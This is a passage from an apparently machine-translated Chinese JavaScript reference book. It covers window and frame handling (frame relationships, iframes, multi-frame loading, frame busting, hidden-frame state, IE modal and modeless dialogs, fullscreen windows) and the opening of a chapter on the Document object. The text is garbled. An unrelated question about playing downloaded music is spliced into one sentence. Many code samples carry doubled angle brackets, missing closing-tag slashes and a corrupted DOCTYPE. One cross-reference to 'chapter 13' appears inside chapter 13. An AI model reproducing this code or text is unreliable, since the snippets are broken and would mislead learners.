| 事件 | 描述 |
| :--- | :--- |
| **onscroll** | 当窗口向任意方向滚动时触发。 |

---

### 框架：窗口的一种特殊情况

Web 开发者中常见的一个误解是框架与窗口之间的关系。实际上，无论是从 (X)HTML 还是 JavaScript 的角度来看，屏幕上显示的每个框架都是一个可以操作的窗口。事实上，当浏览器窗口包含多个框架时，可以通过 `window.frames[]` 来访问各个独立的窗口对象，这是一个包含窗口中所有单独框架的数组。操作框架时常用的基本属性详见表 12-4。请注意，其中许多属性与 (X)HTML 中使用的保留框架值有关。

表 12-4：与框架相关的常见窗口属性

| 窗口属性 | 描述 |
| --- | --- |
| frames[] | 当前窗口包含的所有框架对象的数组。 |
| length | 窗口中的框架数量。应与 **window.frames.length** 的值相同。 |
| name | 窗口的当前名称。自 JavaScript 1.1 起，此属性既可读又可设置。 |
| parent | 对父窗口的引用。 |
| self | 对当前窗口的引用。 |
| top | 对顶层窗口的引用。除非 **<frame>** 标签加载的文档包含更多框架，否则顶层窗口和父窗口通常是同一个。 |
| window | 对当前窗口的另一个引用。 |

使用框架和 JavaScript 的主要挑战在于保持框架的名称和关系清晰，以便正确建立框架之间的引用。假设你有一个名为 **frames.html** 的文档，其标记如下：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Frameset//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-frameset.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>FrameSet Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<frameset rows="33%,*,33%">

    <frame src="framerelationship.html" name="frame1" id="frame1" />

    <frame src="moreframes.html" name="frame2" id="frame2" />

    <frame src="framerelationship.html" name="frame5" id="frame5" />

</frameset>

</html>
```

在这种情况下，包含此文档的窗口被视为三个框架（frame1、frame2 和 frame5）的父窗口。虽然你可能期望使用像

```
window.frames.length
```

这样的值来确定窗口中的框架数量，但实际上你可能需要从子框架内运行脚本。因此，你实际上会使用

```
window.parent.frames.length
```

或直接使用

```
parent.frames.length
```

**parent** 属性允许窗口确定其父窗口。我们也可以使用 **top** 属性，它提供了对包含所有其他窗口的顶层窗口的句柄。这可以写成 **top.frames.length**。不过，你需要小心；除非你有嵌套框架，否则父窗口和顶层窗口实际上可能是同一个。

要访问特定框架，我们可以使用它的名称和它在数组中的位置，所以

```
parent.frames[0].name
```

会打印出第一个框架的名称，在我们的例子中是 frame1。我们也可以从另一个子框架使用 **parent.frame1** 甚至 **parent.frames["frame1"]**（利用对象集合的关联数组特性）来访问该框架。记住，框架包含一个窗口，所以一旦你有了这个

和那下载的音乐怎么播放？

你就可以在它包含的内容上使用所有的 **Window** 和 **Document** 方法。

下一个示例展示了框架名称的概念以及它们彼此关联的方式。此示例需要三个文件：两个框架集（frames.html 和 moreframes.html）和一个包含打印框架的 self、parent 和 top 关系的脚本的文档（framerelationship.html）。

**文件：frames.html**

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Frameset//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-frameset.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>FrameSet Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<frameset rows="33%,*,33%">

    <frame src="framerelationship.html" name="frame1" id="frame1" />

    <frame src="moreframes.html" name="frame2" id="frame2" />

    <frame src="framerelationship.html" name="frame5" id="frame5" />

</frameset>

</html>
```

**文件：moreframes.html**

```
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">

<head>

<title>More Frames</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<frameset cols="50%,50%">

    <frame src="framerelationship.html" name="frame3" id="frame3" />

    <frame src="framerelationship.html" name="frame4" id="frame4" />

</frameset>

</html>
```

**文件：framerelationship.html**

```
<!DOCTYPE html PUBLIC "-// subtitle 

"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html  xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Frame Relationship Viewer</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<script type="text/javascript">

<!--

   var msg="";

   var i = 0;

   msg += "<h2>Window: "+ window.name + "</h2><hr />";

   if (self.frames.length > 0)

      {

         msg += "self.frames.length = " + self.frames.length + "<br />"

         for (i=0; i < self.frames.length; i++)

         msg += "self.frames["+i+"].name = "+ self.frames[i].name + "<br />";

```

```
else
    msg += "Current window has no frames directly within it<br />";
msg+="<br />";
if (parent.frames.length > 0)
{
    msg += "parent.frames.length = " + parent.frames.length + "<br />"
    for (i=0; i < parent.frames.length; i++)
        msg += "parent.frames["+i+"].name = "+ parent.frames[i].name + "<br />";
}
msg+="<br />";
if (top.frames.length > 0)
{
    msg += "top.frames.length = " + top.frames.length + "<br />"
    for (i=0; i < top.frames.length; i++)
        msg += "top.frames["+i+"].name = "+ top.frames[i].name + "<br />";
}

document.write(msg);
// -->
</script>
</body>
</html>
```

这些示例文件中的关系如图 12-2 所示。


图 12-2：框架关系

一旦你理解了框架之间的关系，你会发现将变量分配给更深层页面中的特定框架比始终使用 `parent.frames[]` 数组要容易得多。例如，给定一个像这样的简单框架集：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Frameset//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-frameset.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Two Frames</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<frameset cols="300,*">

      <frame src="navigation.html" name="frame1" id="frame1" />

      <frame src="content.html" name="frame2" id="frame2" />

</frameset>

</html>
```

在导航窗口内，你可以设置一个变量来引用内容框架，像这样：

```
var contentFrame = parent.frames[1]; // 或通过名称引用
```

这样你就可以通过 *contentFrame* 来引用内容，而不是使用冗长的数组路径。

### 内联框架

框架的一个值得注意的变体是 <**iframe**>，即内联框架。内联框架的理念是你可以直接将框架添加到文档中，而无需使用框架集。例如：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Iframe</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h1>Regular Content here</h1>

<iframe src="http://www.google.com" name="iframe1" id="iframe1" height="200"
 width="200"></iframe>

<h1>More content here</h1>

</body>

</html>
```

会产生一个类似这样的页面：


 随之而来的问题是：我们如何控制这种类型的框架？实际上，这要容易得多，因为它位于当前窗口的 **frames[]** 数组内。此外，如果内联框架有命名，你可以使用 **getElementById** 等 DOM 方法来访问对象。这里的简单示例演示了这一思路。

```
<<iframe src="http://www.google.com" name="iframe1" id="iframe1" height="200" width="200">><</iframe>>

<<form action="#" method="get">>

<<input type="button" value="Load by Frames Array"

 onclick="frames['iframe1'].location='http://www.javascriptref.com';" />>

<<input type="button" value="Load by DOM"

 onclick="document.getElementById('iframe1').src='http://www.pint.com';" />>

<</form>>
```

虽然内联框架似乎是标准框架的简化版本，但它们远比这些示例所暗示的更有趣。事实上，我们将在[第 20 章](#)中看到，**&lt;iframe&gt;** 是使用 JavaScript 与 Web 服务器进行通信的主要方法之一。不过目前，我们先搁置这个高级应用，来研究一些更常见的 JavaScript 框架应用。

### 应用框架

既然我们已经熟悉了框架命名约定，是时候用它们来做点事情了。在本节中，我们提供一些常见框架问题的解决方案，并暗示框架使用中存在的更大问题。

#### 加载框架

开发者常见的 HTML 问题之一是使用链接加载多个框架。(X)HTML 提供了 target 属性来定位单个框架，例如，*framename*，如下所示：

```
<<a href="http://www.google.com" target="framename">>Google<</a>>
```

**然而**，如何用一次链接点击来定位两个或更多框架呢？答案当然是使用 JavaScript。考虑这里的框架集：

```
<<frameset cols="300,* ">>

     <<frame src="navigation.html" name="frame1" id="frame1" />>

     <<frame src="content.html" name="frame2" id="frame2" />>

     <<frame src="morecontent.html" name="frame3" id="frame3" />>

<</frameset>>
```

在这种情况下，我们希望 navigation.html 文件中的链接能同时加载两个窗口。我们可以编写一组简单的 JavaScript 语句来实现，如下所示：

```
<<a href="javascript: parent.frames['frame2'].location='http://www.google.com';

 parent.frames['frame3'].location='http://www.javascriptref.com'; ">>Two Sites<</a>>
```

这种方法可能会变得有些繁琐，所以你可能更希望编写一个名为 **loadFrames()** 的函数来执行这项工作。你甚至可以考虑使用一个通用函数，它接收两个数组，一个包含框架，一个包含 URL 目标，然后逐个加载它们，如下所示：

```
<<script type="text/javascript">>

<!--

function loadFrames(theFrames,theURLs)

{

 if ((loadFrames.arguments.length != 2) || (theFrames.length != theURLs.length) )

   return

 for (var i=0;i<<theFrames.length;i++)

  theFrames[i].location = theURLs[i];

}

//-->

<</script>>
```

```
<<a href="javascript:loadFrames([parent.frames['frame2'],parent.frames['frame3'],

parent.frames['frame4']],['http://www.google.com','http://www.javascriptref.com',

'http://www.ucsd.edu']); ">>Three Sites<</a>>
```

#### 框架破解

虽然框架可能非常有用，特别是在 JavaScript 中进行状态管理时，但它们也可能给 Web 设计师带来严重问题。例如，有些网站会在所有出站链接周围加上框架，占用了宝贵的屏幕空间。网站设计师通常会采用一种称为"框架破解"的技术，来销毁可能包围其页面的任何嵌入框架集。使用以下脚本非常容易实现，该脚本将最顶层框架的当前位置设置为不应被框架化的页面值。

```
<<script type="text/javascript">>

<!--

function frameBuster()

{

        if (window != top)

                top.location.href = location.href;

}

window.onload = frameBuster;

// -->

</script>>
```

### 框架构建

与框架破解解决的问题相反的是，避免框架窗口在其框架上下文之外显示。这种情况偶尔会发生，当用户为框架集的一部分添加书签，或从框架集中将链接启动到新窗口时。基本思路是让所有框架文档检查确保它们位于框架内，通过查看每个窗口的 location 对象，如果没有，则动态重建框架集文档。例如，给定一个位于 frameset.html 文件中的简单双框架布局，

```
<<frameset cols="250,*">>

  <<frame src="navigation.html" name="navigation" id="navigation" />>

  <<frame src="content.html" name="content" id="content" />>

</frameset>
```

你可能会担心用户可以直接为 navigation.html 或 content.html 的 URL 添加书签或直接访问。要在 navigation.html 和 content.html 中重建框架集，你可以使用

```
<<script type="text/javascript">>

<!--

if (parent.location.href == self.location.href)

    window.location.href = 'frameset.html';

// -->

</script>>
```

这将检测页面是否在其框架集之外，如果是，则重建框架集。当然，这是一个非常简单的示例，但它给出了框架构建的基本思路，而且脚本可以扩展，并采用各种技巧来保留导航和内容页面的状态。

它们对书签极不友好，经常出现打印问题，而且搜索引擎处理得也不好。正如我们所展示的，你当然可以使用 JavaScript 来解决框架的问题，但在很多情况下，可能最好还是不要使用它们。在结束我们对框架的讨论之前，让我们最后看看使用框架和 JavaScript 的一个有趣可能性。

### 使用框架进行状态管理

框架的一个非常有用的方面是能够保存跨多个页面视图的变量状态。正如我们之前看到的窗口一样，可以从一个窗口访问另一个窗口的变量空间；框架也是如此。通过使用一种用户很难注意到的特殊小型框架框架集，我们可以创建一个空间来保存跨页面加载的变量。例如，考虑文件 stateframes.html 中的框架集如下所示：

```
File: stateframes.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Frameset//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-frameset.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>>State Preserve Frameset</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<frameset rows="99%,*" >
    <frame src="mainframe.html" name="frame1" id="frame1" frameborder="0" />
    <frame src="stateframe.html" name="stateframe" id="stateframe"
frameborder="0" scrolling="no" noresize="noresize" />
</frameset>
</html>
```

在这种情况下，我们有一个非常小的名为 *stateframe* 的框架，它将用于保存跨页面加载的变量。mainframe.html、mainframe2.html 和 stateframe.html 的内容如下所示。注意通过引用 *parent* 框架，我们如何能够在任何页面上访问隐藏框架的变量 *username*。

```
File: stateframe.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>>Variables</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
```

```
<<body>>
<<script type="text/javascript">>
<!--

    var username = "";

//-->>

<<script>>

<<body>>

<<html>>


File: mainframe.html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<<head>>

<<title>>State Preserve 1<</title>>

<<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />>

<<head>>

<<body onload="document.testform.username.value = parent.stateframe.username;">>

<<h1 align="center">>JS State Preserve<</h1>>

<<form name="testform" id="testform" action="#" method="get">>

    <<input type="text" name="username" id="username" value="" size="30"
    maxlength="60" />>

    <<input type="button" value="Save Value" onclick="parent.stateframe.username =
    document.testform.username.value;" />>

<<form>>

<<div align="center">>

    <<a href="mainframe2.html">>Next page<</a>>

<<div>>

<<body>>
```


```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>State Preserve 2</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<head>

<body>

<script type="text/javascript">

<!--

if (!(parent.stateframe.username) || (parent.stateframe.username == ""))

  document.write("<h1 align='center'>Sorry we haven't meet before</h1>");

else

  document.write("<h1 align='center'>Welcome to the page

"+parent.stateframe.username+"!</h1>");

// -->

<script>

<div align="center">

  <a href="mainframe.html">Back to previous page</a>

<div>

<body>

<html>
```

虽然 JavaScript 可以用来保持状态，甚至可以创建像购物车这样强大的功能，但以这种方式使用它并不是一个好主意，除非你能始终确保在用户中途关闭脚本的情况下也能妥善处理。此外，你可能会发现脚本代码过于容易访问，对于在页面之间保持状态信息这样的重要任务来说显得过于开放。在客户端脚本功能变得更加健壮之前，Web 程序员可能应该依赖传统的状态管理机制，如 cookies，来维护网站中页面之间的状态。

### Window 扩展

鉴于 **Window** 对象并不完全属于任何单一标准——DOM 或 JavaScript——而且它对用户的体验至关重要，因此对该对象进行了大量的扩展。这些扩展大多数都很新且具有专有性，尚未被广大 Web 设计师采用。本节概述了浏览器厂商对 Window 对象进行的一些比较有用的扩展。

#### IE Window 扩展：模态窗口、非模态窗口和弹出窗口

Internet Explorer 支持几种特殊类型的窗口。第一种是模态窗口。与标准对话框类似，这种更通用的窗口对页面是模态的，必须关闭后才能继续操作。创建模态对话框的基本语法是

```
window.showModalDialog(URL of dialog, arguments, features);
```

其中

- *URL of the dialog* 是要显示的文档的 URL。
- *arguments* 是你希望传递给模态对话框的任何对象或值。
- *features* 是以分号分隔的对话框显示特性列表。

这里展示一个简单的示例：

```
window.showModalDialog("customdialog.htm",window,"dialogHeight: 150px;
dialogWidth: 300px; center: yes; help: no; resizable: no; status: no;");
```

**showModalDialog()** 方法还会返回一个值。这个值可以通过设置对话框文档的 **window.returnValue** 属性来设定。该值的返回会自动发生。这个功能允许轻松创建 **prompt()** 和 **confirm()** 风格的对话框，它们必须返回一个值。

非模态窗口与模态对话框有很大不同。非模态窗口始终位于其创建窗口的前面，即使该窗口获得焦点也是如此。一个常见的用途是显示帮助信息或其他非常有用的上下文信息。然而，虽然功能不同，但微软的非模态对话框在语法上与模态对话框相似。

```
windowreference = window.showModelessDialog(URL of dialog, arguments, features)
```

该方法的参数相同，但返回的值不是在对话框内创建的值，而是对创建窗口的引用，以便后续对其进行操作。这类似于 **window.open()** 返回的值。创建非模态窗口的语法简单示例如下：

```
myWindow = window.showModelessDialog("customdialog.htm",window,"dialogHeight:
150px; dialogWidth: 300px; center: yes; help: no; resizable: no; status: no;");
```

微软支持的最后一种特殊窗口形式是通用的弹出窗口。创建弹出窗口非常简单——只需使用 **window.createPopup()**，它不接受任何参数，返回对新创建窗口的引用。

```
var myPopup = window.createPopup();
```

这些窗口最初被创建但处于隐藏状态。之后可以使用弹出对象的 **show()** 方法来显示，使用 **hide()** 方法来隐藏，如下所示：

```
myPopup.show(); // displays created popup

myPopup.hide(); // hides the popup
```

微软特殊弹出窗口的价值可能不太明显，直到你意识到你可以完全控制它们的外观，甚至可以移除显示窗口的装饰边框。作者完全不鼓励使用无边框窗口，尽管各种 JavaScript 库的兴起使得开发者可以创建自定义的 GUI 系统。为你的网站使用独特的窗口、滚动条和其他 GUI 控件所带来的可用性方面的弊端远大于这些控件的视觉价值——请谨慎使用。

**以下是一个完整的示例，展示了如何使用所有这些微软特有的窗口：**

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html xmlns="http://www.w3.org/1999/xhtml">

<head>

<title>Special IE Windows</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/jscript">

<!--

var myPopup = window.createPopup();

function showPopup()

{

    var popupBody = myPopup.document.body;

    popupBody.style.backgroundColor = "#ffff99";

    popupBody.style.border = "solid black 1px";

    popupBody.innerHTML = "Click outside this window to close or press hide

button.";

    myPopup.show(50, 100, 350, 25, document.body);

}

function makeModalDialog()

{

 // modal.html has the modal dialog information in it

 showModalDialog("modal.html",window,"status:false;dialogWidth:300px;

dialogHeight:100px;help:no;status:no;");

}


function makeModelessDialog()
{

 var HTMLOutput = "";

 myModelessDialog = showModelessDialog("blank.htm",window,"status:false;dialogWidth:200px;
dialogHeight:300px;help:no;status:no;");

 modelessBody = myModelessDialog.document.body;

 modelessBody.style.backgroundColor = "#ffcc33"


 HTMLOutput += "<html><head><title>Modeless Dialog</title></head>";

 HTMLOutput += "<body><h1>Important messages in this modeless window</h1><hr />";

 HTMLOutput += "<form><div align='center'><input type='button' value='close'

onclick='self.close();' />";

 HTMLOutput +="</div></form></body></html>";


 modelessBody.innerHTML = HTMLOutput;

}

// -->

</script>

</head>

<body>

<form name="mainform" id="mainform" action="#" method="get">

<input type="button" value="Modal Dialog" onclick="makeModalDialog();" />

<input type="button" value="Modeless Dialog" onclick="makeModelessDialog();" />

<input type="button" value="Show Popup" onclick="showPopup();" />

<input type="button" value="Hide Popup" onclick="myPopup.hide();" />

</form>

</body>

</html>
```

感兴趣的读者可以访问 **http://msdn.microsoft.com/library** 获取有关微软对 **Window** 对象扩展的最新信息。

### 全屏窗口

创建一个充满屏幕甚至移除浏览器装饰边框的窗口在许多浏览器中都是可能的。在 4.x 版本及以上的浏览器中，可以获取当前屏幕尺寸，然后创建一个适合大部分或全部可用区域的新窗口。在 Netscape 中，由于屏幕高度和宽度的计算方式，你可能难以覆盖整个窗口。然而，下面提供的脚本应该能够在两种浏览器中都能充满屏幕。

```
<script type="text/javascript">

<!--

newwindow=window.open('http://www.yahoo.com','main','height='+screen.height+',
width='+screen.width+',screenX=0,screenY=0,left=0,top=0,resizable=no');

//-->

<script>
```

前面这个"简陋的"脚本确实保留了浏览器的装饰边框，并且可能无法完全充满窗口。在 4.x 版本及以上的浏览器中，可以进入完全填充屏幕的全屏模式。在 Internet Explorer 中这非常容易，只需使用如下 JavaScript 语句：

```
newWindow=window.open('http://www.yahoo.com', 'main','fullscreen=yes');
```

一些较旧的浏览器可能需要更复杂的脚本，甚至会在授予全屏安全权限之前提示用户。旧浏览器在进入全屏之前警告用户这一事实很能说明问题，尤其是当你考虑到一些用户可能不知道如何退出全屏模式时。在 Windows 系统上，ALT-F4 组合键应该可以解决问题。但是，用户可能不知道这一点，所以你应该提供一个关闭按钮或说明如何退出全屏模式。
```

 # 摘要

**Window**对象是除 Document 本身之外 JavaScript 中最重要的对象。利用这个对象，你可以创建和销毁常规窗口，以及各种特殊用途的窗口（如对话框）。还可以通过 JavaScript 操纵窗口的特性，甚至让窗口相互控制。关键在于正确命名，因为一旦找到所讨论的窗口，就可以使用任何常见的 **Document** 方法对其进行操作。框架被证明是窗口对象的一种特殊形式，它们的正确用法也与名称密切相关。虽然 **Window** 对象是所有支持 JavaScript 的浏览器共有的，但我们发现它也是一致性最差的对象。微软引入的许多新的 **Window** 属性和方法可能会进入标准，但目前程序员在使用时应谨慎。下一章将回到窗口内容，讨论传统和面向 DOM 的文档操作实践。

## 第 13 章：处理文档

本章探讨 **Document** 对象，它可用于操纵窗口或框架内的 (X)HTML 文档。我们首先研究所有支持 JavaScript 的浏览器共有的 **Document** 对象功能，如颜色属性、**anchors[]**、**links[]**，以及 **document.write()** 等基本方法。我们简要讨论 4.*x* 代浏览器添加的专有功能。然而，本章的大部分内容涵盖第 10 章介绍的标准文档对象模型。这里的重点不仅是使用 JavaScript 和 DOM 对各种 (X)HTML 进行基本创建和操作，还包括这些功能的可能应用。特别强调了第 10 章未介绍的特定于 HTML 的 DOM 操作思想，例如特殊的表格处理例程。

### 历史文档对象属性

在 Netscape 3 等早期浏览器支持的传统 JavaScript 对象模型下，窗口内的 HTML 文档很少可用于操作。**Document** 对象的主要属性与 HTML **<body>** 标签的基本属性相关，如背景、链接和文本颜色。其他一些基本属性包括文档的修改时间、标题和 URL。当然，在 **Document** 对象中，有文档中包含的各种标记元素的集合，如锚点、表单、图像和链接。后来在 DOM 下，我们能够超越预定义的集合并访问任何任意标记元素。现在让我们看看历史上任何支持 JavaScript 的浏览器都支持的 **Document** 属性。

#### 文档颜色

传统 JavaScript 对象模型支持众多属性来读取和设置文档及其文本和链接的颜色。访问页面颜色的 **Document** 属性如表 13-1 所示。注意这些属性如何与 **<body>** 标签的 HTML 属性对应。

**表 13-1：与颜色相关的文档属性**

| 文档对象属性 | 说明 |
|---|---|
| aLinkColor | 链接处于活动状态或按下时的颜色，由 <body alink="color"> 指定，默认为红色 |
| bgColor | 页面的背景颜色，由 <body bgcolor="color"> 指定 |
| fgColor | 由 <body text="color"> 指定的文档文本颜色 |
| linkColor | 链接的未访问颜色（未指定时为蓝色），由 <body link="color"> 指定 |
| vlinkColor | 由 <body vlink="color"> 指定的已访问链接颜色，默认为紫色 |

当然，在现代 HTML 规范下，这些属性已被弃用，转而使用 CSS 属性，因此可以假设通过 **Document** 属性访问它们也应如此。事实上，虽然 DOM Level 1 不直接支持这些属性，但所有支持 JavaScript 的浏览器继续支持它们，而且在可预见的未来可能仍会这样做。

这里给出了这些与颜色相关属性的完整使用示例，其渲染效果如图 13-1 所示。

**图 13-1：** 背景和颜色示例的渲染效果

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
  "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Document Color Test</title>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<script type="text/javascript">
<!--

function setColors(form)
{
  with (form)
  {
    document.bgColor = backgroundColor.value;
    document.fgColor = textColor.value;
    document.alinkColor = activeLinkColor.value;
    document.linkColor = linkColor.value;
    document.vlinkColor = visitedLinkColor.value;
  }
}

//-->
</script>
</head>
<body bgcolor="red" text="black" link="blue" alink="yellow" vlink="purple">
<h2>Test Links</h2>
<a href="fakeURL.htmp" onclick="return false">Unvisited Link</a><br />
<a href="#" onclick="return false">Click to show active color</a><br />
<a href="#">Visited link</a><br />
<form name="colors" id="colors" action="#" method="get">
<h2>Page Colors</h2>
```

Background Color:

```
<input type="text" name="backgroundColor" id="backgroundColor" value="red" />
```

```
<br />
```

Text Color:

```
<input type="text" name="textColor" id="textColor" value="black" /><br />
```

```
<h2>Link Colors</h2>
```

Unvisited:

```
<input type="text" name="linkColor" id="linkColor" value="blue" /><br />

Active:

<input type="text" name="activeLinkColor" id="activeLinkColor" value="yellow"
 /><br />

Visited:

<input type="text" name="visitedLinkColor" id="visitedLinkColor" value="purple"
 /><br />

<input type="button" value="set colors" onclick="setColors(this.form);" />

</form>

</body>

</html>
```

> 注意 你可能想知道如何操作其他 **<body>** 属性，如背景。这将在本章后面讨论的 DOM 或 DHTML 对象模型中介绍。

这些属性的常见用途包括根据用户偏好或一天中的时间修改颜色。例如，页面可能在早上显示一种配色方案，在晚上显示另一种配色方案。

#### 最后修改日期

**Document** 对象的一个非常有用的属性是 **lastModified**。该属性保存一个字符串，包含文档最后修改（保存）的日期和时间。该属性可用于输出页面修改日期，如下所示：

```
<script type="text/javascript">

<!--
    document.writeln("Document Last Modified: "+document.lastModified);
//-->

</script>
```

关于 **lastModified** 属性的一个常见误解是它会返回 **Date** 对象，而实际上它返回的是 **string**。你不能直接对此属性使用第 7 章讨论的各种 **Date** 方法和属性，因此

```
document.writeln("Last Modified Hour: "+document.lastModified.getHours());
```

会在浏览器中抛出错误。要利用 **Date** 方法，需要从 **document.lastModified** 返回的字符串实例化一个新的 **Date** 对象，如下所示：

```
var lastModObj = new Date(document.lastModified);

alert(lastModObj.getHours());
```

#### 位置及相关属性

**Document** 对象支持与正在使用的文档位置相关的一些属性，包括：**document.location**、**document.URL** 和 **document.referrer**。Netscape 2 中的 **document.location** 是一个只读属性，保存浏览器中当前文档 URL 的文本字符串。在两家厂商的后续浏览器中，**document.location** 似乎只是指向第 13 章讨论的 **window.location** 对象的指针。因此，你既可以读取也可以设置该值。

```
alert("Current location: "+document.location);
```

```
document.location = "http://www.yahoo.com";  // set new location
```

作为实际 **Location** 对象的指针，你还可以访问其属性，如 pathname、protocol、port 等。

```
alert("Current URL protocol: "+document.location.protocol);
```

```
// might return http or file
```

谨慎的 JavaScript 开发者会希望直接使用 **window.location** 的 **Location** 对象，而不是依赖这种常见的映射。

**Document** 对象的 **URL** 属性保存一个只读字符串，包含当前文档的 URL。由于 **window.location** 和 **document.location** 的可用性，它很少被使用。

**referrer** 属性保存引用文档的 URL，换句话说，就是包含激活链接并指向当前文档的文档的 URL。如果没有引用 URL（因为用户直接输入了 URL 或通过浏览找到文件），该属性将为空。**referrer** 属性不能被设置。

你可能会发现，在本地系统上试验 **document.referrer** 时，即使跟随了链接也看不到值。原因是必须使用 HTTP 协议引用文件才能传递引用 URL。HTTP 请求可能包含 **referer** 值（按规范拼写错误）。JavaScript 的 **document.referrer** 从中获取其值；因此，如果你上传一个可以链接的示例，并在通过网络请求文档时执行 **alert(document.referrer)**，你应该能看到链接到当前文档的 URL。

 ## 基本文档方法

从历史上看，**Document** 对象支持五种用于控制文档输出的方法：**clear()**、**close()**、**open()**、**write()** 和 **writeln()**。在本书中，我们已经使用 **document.write()** 方法将字符串输出到文档中。但实际上我们根本没有使用过其他方法。让我们来看看它们的特性，以了解原因。

首先，我们来谈谈 **document.write(string)** 和 **document.writeln(string)** 之间的区别。这两种方法都接收字符串，并将传入的字符串输出到活动文档中。主要区别在于，writeln() 方法会在其输出中添加一个换行符（\n），而 write() 方法则不会。然而，在 (X)HTML 下，回车或换行字符通常会被忽略，除非在某些特定情况下，如 `<pre>` 标签内、`<textarea>` 内，或应用了 CSS white-space 属性时，所以你可能永远不会注意到它们之间的区别。以下代码片段使用 `<pre>` 标签来展示这两种方法之间的区别：

```
<pre>
<script type="text/javascript">
document.write("这是一个 write 请注意它不会导致换行，即使在 pre 元素中也是如此");
document.writeln("这一行会有一个换行符");
document.writeln("像这样。");
document.write("你还是可以手动使用 <br> 元素来向 HTML 输出 <br>换行符");
</script>
</pre>
```

结果如下所示：


使用 **document.write()** 和 **writeln()**，我们已经习惯了向文档中输出 (X)HTML。正如我们所见，输出大量字符串可能会相当耗时，因此通常更好的做法是先将字符串构建起来，然后一次性输出，如下所示：

```
<script type="text/javascript">
var str = "";
str += "这是一个非常长的字符串。";
str += "它包含像 &copy; 这样的实体以及 <b>XHTML</b> 标签。";
str += "我们甚至可以在字符串中包含 <pre> 各种特殊字符，如";
str += "\t \t 制表符甚至换行符 \n \n";
str += "但请记住 XHTML 的规则可能会覆盖 \t\t\n 我们的努力";
document.write(str);
</script>
```

**clear()**、**open()** 和 **close()** 的作用似乎很明显。从它们的名称来看，你会预期 **clear()** 会清除文档的内容，而 **open()** 和 **close()** 分别用于打开和关闭文档以供写入。现实是 **document.clear()** 在现代 JavaScript 浏览器中不受支持，而且事实上，一旦文档显示，使用 **document.write()** 写入的文档实际上就已经关闭写入状态了。因此，显式地打开和关闭文档并没有太大作用。不过，在为新窗口中的文档创建内容时，你可能会发现它们的用途，如下面的简单示例所示。

```
<script type="text/javascript">
var mywindow = window.open("","newwin", "height=300,width=300");
mywindow.document.open();
mywindow.document.write("<html><head><title>Test</title></head>");
mywindow.document.write("<body><h1>Hello!</h1></body></html>");
mywindow.document.close();
</script>
```

当然，你可能会注意到在这个例子中，**document.open()** 和 **close()** 似乎根本不存在！希望随着标准化 DOM 的发展，这种奇怪的 JavaScript 特性将会消失，因为一切都将变得可更改。

### 使用 Document 的传统 HTML 元素访问

JavaScript 的第一个版本为 **Document** 对象定义了三组 HTML 元素集合：**anchors[]**、**forms[]** 和 **links[]**。后来，在 Netscape 3 和 Internet Explorer 4 等浏览器中，**applets[]**、**embeds[]**、**images[]** 和 **plugins[]** 等集合也变得可用。其中许多功能在 DOM Level 1 下继续得到支持，即使那些不在规范中的功能，鉴于其广泛使用，浏览器可能仍会继续支持。*表 13-2* 概述了这些集合。

| 集合名称 | 描述 | 浏览器兼容性 | DOM 支持 |
|---------------|-------------|----------------------|-------------|
| **anchors[]** | 所有锚点的集合，由 `<a name="anchorname">...</a>` 定义。 | Netscape 2+ 和 Internet Explorer 3+ | DOM Level 1 |
| **applets[]** | 页面中所有由 `<applet>` 标签定义的 Java 小程序。 | Netscape 3+ 和 Internet Explorer 4+ | DOM Level 1 |
